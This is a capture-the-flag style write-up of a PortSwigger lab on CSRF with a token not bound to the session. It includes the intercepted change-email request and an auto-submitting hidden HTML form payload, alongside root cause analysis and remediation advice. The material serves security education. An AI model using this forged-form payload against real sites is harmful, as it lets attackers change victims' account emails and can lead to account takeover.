




# LAB 04 - CSRF where token is not tied to user session

## Lab Information

- **Category:** Cross-Site Request Forgery (CSRF)
- **Type:** CSRF Token
- **Difficulty:** PRACTITIONER
- **Status:** ✅ Solved
- **Date:** 2026-9-10

---


---

# Table of Contents

- Executive Summary
- Lab Information
- Objective
- Vulnerability Overview
- Attack Prerequisites
- Environment & Scope
- Methodology
- Discovery Process
- Technical Analysis
- Payload Analysis
- Exploitation Flow
- Evidence
- Impact
- Root Cause
- Risk Assessment
- Remediation
- Lessons Learned
- References
- Screenshots

---

# Executive Summary

A Cross-Site Request Forgery (CSRF) vulnerability was discovered in the email change function. Although the application requires a CSRF parameter, the enforcement of this requirement is inconsistent; an attacker can use a valid, fresh CSRF token obtained from another user, as the token is not bound to the victim's session. This allows an attacker to craft an HTML form that changes the email address of an already logged-in user (the victim).

---

# Objective

The objective of this lab is to demonstrate that an attacker can cause a state-changing request to be submitted from an external origin while the victim is authenticated to the target application.

---

# Vulnerability Overview

A Cross-Site Request Forgery (CSRF) vulnerability occurs when an attacker tricks the browser of a logged in victim into sending a request to another website, causing that site to execute the request using the victim's privileges.
Authentication establishes who the user is, but it does not necessarily prove that the user intentionally initiated a particular request.

---


# Attack Requirements

1. The victim must be authenticated (logged in) to the target application.
2. The victim's browser must be able to send requests to the target application while the session is authenticated.
3. The attacker must know or be able to determine the vulnerable endpoint and the required parameters.
4. The state-changing action must be triggerable via a cross-site request.
5. The CSRF token must not be bound to the victim's session.

---

# Environment & Scope

| Item | Value |
|------|-------|
| Target | PortSwigger Web Security Academy lab |
| Endpoint | `/my-account/change-email` |
| HTTP Method | POST |
| Parameter | `email` |
| Authentication | Session cookie |
| CSRF Protection | CSRF Token |
| Attack Platform | Exploit Server |
| Client | Web Browser |
| Attack Vector | Cross-site HTML form submission |

---

# Methodology

1. Open the vulnerable lab.
2. Enter a valid email address to update it.
3. Inspect the HTTP request and response using Burp Suite.
4. Check the request to see if it contains protection values.
5. Go to the exploit page.
6. Create a cross-site HTML form targeting the vulnerable endpoint.
7. Include an attacker-controlled email address as a hidden form parameter.
8. Automatically submit the form from the exploit server.
9. Deliver the exploit to the victim.
10. Verify that the victim's email address was changed.

---

# Discovery Process

### Step 1 — Testing the Update email

```email
mohamad@gmail.com
```

The email address is updated via the `email` parameter, and the browser uses session data to identify the user, with CSRF token protection in place.

### Step 2 — Testing the modification of the CSRF parameter by another user

```text
POST /my-account/change-email HTTP/1.1
HOST:XXXXXXXX
Cookie: session=REDACTED
email= mohamad@gmail.com&csrf= XXXXXXXXXXXXX
```
Upon examining the response, we observed that the server performed a successful redirect without requiring the CSRF token to be bound to the user's session. After accessing the account page, we confirmed that the email address had been changed; this demonstrates that the application accepts state-changing requests even when a CSRF token belonging to another user is used.

---

## Security Control Verification

| Request Method | CSRF Parameter | Token Value | Result |
|---|---|---|---|
| POST | Present | Valid | ✅ Email changed |
| POST | Missing | Missing | ❌ Email hasn't changed |
| POST | For another person | Old | ❌ Email hasn't changed |
| POST | For another person | new | ✅ Email changed |

The final test reveals the security vulnerability: the request does not require the transaction to be linked to the user's own session (CSRF).

---

# Technical Analysis

The vulnerable functionality uses the following endpoint:

```http
POST /my-account/change-email

email= mohamad@gmail.com & csrf= XXXXXX
```
The relevant request parameter is: email=mohamad@gmail.com
The request is authenticated using the victim's session cookie.

The application does not enforce the requirement for a CSRF token linked to the user's session; the server continues to process the request even when a CSRF token belonging to another user is used.

Therefore, the application accepts the state-changing request based on the authenticated session without verifying that the request was intentionally initiated by the legitimate application.

```http
POST /my-account/change-email HTTP/1.1

email=attacker@gmail.com & csrf= For another person
```

---

# Payload Analysis

## Payload Used

```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="attacker@example.com">
    <input type="hidden" name="csrf" value="TOKEN_ATTACKER">
</form>

<script>
    document.forms[0].submit();
</script>
```

## Why This Payload Works

```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">

```
It creates a form that sends a POST request to the entered page.


```html
 <input type="hidden" name="email" value="attacker@example.com">
```
You enter the email address value you want to change, without it being visible to the victim.

```html
     <input type="hidden" name="csrf" value="TOKEN_ATTACKER">
```
The form must include a CSRF parameter because it is required; however, it is not bound to the victim's session—meaning any valid, fresh CSRF token can be used. This is intentional, as the vulnerability allows the server to process the state-changing request provided a valid CSRF parameter from *anyone* is present.

```html
<script>
        document.forms[0].submit();
</script>
```
It causes the browser to submit the form automatically.
The exploit does not contain the victim's session cookie. Instead, the attack relies on the victim's authenticated browser to provide the authentication context when submitting the request to the target application.

---

# Exploitation Flow

```text
Attacker
   │
   │ Sends a malicious HTML page
   ▼
Victim's Browser
   │
   │ POST /my-account/change-email
   │ email=attacker@example.com&csrf=XXXXXXXX 
   │
   │ csrf for another person
   ▼
Target Server
   │
   ▼
Valid CSRF token
   │
   ▼
Request still accepted
   │
   ▼
Email changed
   │
   ▼
Email changed
   ✅
  
```

---

# Impact

Depending on the privileges of the victim and the application's functionality, successful CSRF exploitation may allow an attacker to:

- Change the victim's email address.
- Modify account profile information.
- Perform unauthorized account actions.
- Change security-related settings if they are vulnerable to CSRF.
- Perform administrative actions when the victim has administrative privileges.
- Trigger financial or transactional operations if those endpoints lack CSRF protection.
  
### Lab-Specific Impact

In this lab, successful exploitation allows an attacker to change the authenticated victim's email address without the victim intentionally submitting the request.

Depending on the application's account recovery and security mechanisms, unauthorized email modification may potentially contribute to account takeover.

---

# Root Cause

The root cause of the problem lies in the fact that the CSRF token is not bound to the user's specific session; there is no proper verification ensuring that the CSRF token belongs to the active session when performing a state-changing operation.

Consequently, when the `csrf` parameter belonging to another person is used, the server processes the request and changes the authenticated user's email address; this allows an attacker to craft a cross-site POST request without needing to know the victim's CSRF token.

For example:

```http
POST /my-account/change-email

email=attacker@gmail.com & csrf=XXXXXXX
```
The server receives the request and changes the authenticated user's email address.

This occurs due to inconsistent implementation of security measures.

---

# Risk Assessment

| Item | Value |
|------|-------|
| Severity |  Medium |
| CVSS Score | Not calculated |
| CWE | CWE-352: Cross-Site Request Forgery (CSRF) |
| OWASP Category | Cross-Site Request Forgery (CSRF) |
| Exploitability | Demonstrated in lab |
| Business Impact | Unauthorized account/email modification; potential account takeover depending on account recovery functionality |

---

# Remediation

- **Using Anti-CSRF Tokens**
  - Generate a random, unique, and cryptographically secure token for each user session or request.
  - Include this token in operations that alter data state (such as POST, PUT, and DELETE requests).
  - The server verifies that the token received from the browser matches the stored token before executing the request.

- - **SameSite Cookies**
  - Configure session cookies with an appropriate `SameSite` policy such as `Lax` or `Strict` where compatible with the application's requirements.
  - SameSite should be considered an additional layer of defense rather than the sole CSRF protection mechanism.
    
- **Request for re-authentication for sensitive actions**
  - Requiring the user to enter their current password, a two-factor authentication (2FA/OTP) code, or solve a CAPTCHA before completing critical      actions (such as changing their email address, transferring funds, or deleting their account).

- **Strict adherence to REST standards (Strict HTTP Methods)**
  - Ensure that GET requests are used solely for viewing and reading data, and never alter the system state (changing a password via a GET link is     a security disaster).

- - **Custom Request Headers**
  - For AJAX/API requests, require an appropriate custom header where applicable and validate it server-side.
  - Do not rely on custom headers as the sole CSRF defense.
 
  - **Checking Origin and Referer Headers**
  - Verifying the Origin or Referer header on the server side as an additional validation step to ensure that the request actually originated from     your site rather than a malicious one.
    
---

# Lessons Learned

- Browsers may automatically attach authentication cookies to requests, subject to cookie policies such as SameSite.
- Predictability and ease of exploitation.
- Risks associated with state-changing HTTP requests.
- Simulating the attack via independent interfaces.
- Authentication is not equivalent to intent verification.
- CSRF exploits the victim's authenticated session rather than stealing the session itself.
- A state-changing request should require an appropriate CSRF defense.
- The presence of a CSRF token must be mandatory for state-changing requests, and its value must be validated server-side.
  
---

# References

- OWASP
- PortSwigger Web Security Academy
- MITRE CWE
- CVSS Specification

---

# Screenshots

## Test



...

## Burp Request



...

## Payload



...


## Successful 



---

# Conclusion

This practical experiment demonstrated the successful exploitation of a Cross-Site Request Forgery (CSRF) vulnerability in a laboratory environment.
The vulnerable endpoint accepted a state-changing request without requiring a CSRF token linked to the user's session or any other effective defensive mechanism; it even accepted the request when a CSRF token belonging to a different user was used. By hosting a malicious HTML form on an external server, the attacker was able to induce the victim's browser to send a forged request to the target application.

The key takeaway is that authentication alone is insufficient to verify user intent. Therefore, requests that alter system state must be protected by appropriate CSRF defenses, such as mandatory CSRF token validation, the use of appropriate SameSite cookie policies, and origin/referrer verification where applicable.
